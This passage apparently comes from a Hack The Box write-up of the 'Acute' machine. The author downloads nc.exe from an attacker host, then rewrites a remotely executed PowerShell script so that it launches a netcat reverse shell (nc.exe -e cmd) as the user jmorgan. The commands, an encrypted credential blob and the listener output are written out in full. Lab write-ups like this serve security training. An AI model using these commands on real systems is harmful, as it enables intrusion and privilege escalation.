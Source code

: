 ```yaml
DriveType            : 3
FileSystem           : NTFS
FileSystemLabel      : System Reserved
FileSystemType       : 14
HealthStatus         : 0
OperationalStatus    : {2}
Path                 : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
Size                 : 52424704
SizeRemaining        : 20611072

...SNIP...
```

I think if I can replace the original command `Get-Volume` to reverse shell payload, I can open a shell as `jmorgan`.
Here's the payload I use : `nc.exe -e cmd 10.10.14.7 9001`
I need to upload `nc.exe` in advance.

```powershell
PS C:\Utils> curl http://10.10.14.7:8000/nc.exe -o nc.exe

PS C:\Utils> Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc.exe -e cmd 10.10.14.7 9001') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

$passwd = $securepasswd | ConvertTo-SecureString

$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {C:\utils\nc.exe -e cmd 10.10.14.7 9001} -ComputerName Acute-PC01 -Credential $creds
```

Now let's run this again after setting up a listener.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```

Then, the listener soon open a shell as `jmorgan`.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ nc -nlvp 9001               
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49865
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```
